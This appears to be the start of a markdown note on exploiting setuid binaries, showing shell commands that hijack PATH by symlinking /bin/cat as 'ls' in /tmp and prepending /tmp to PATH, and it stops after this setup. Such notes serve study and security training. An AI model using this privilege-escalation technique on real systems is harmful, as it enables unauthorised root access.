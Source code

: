 # Setuid

In this section we will look at ways to exploit a setuid

## Enviornment Variable Path

In writeable directory /tmp or /tmp/var make a symbolic link to binary

`$ cd /tmp`
`/tmp:~>ln -s /bin/cat ls`
`export PATH=/tmp/:$PATH`
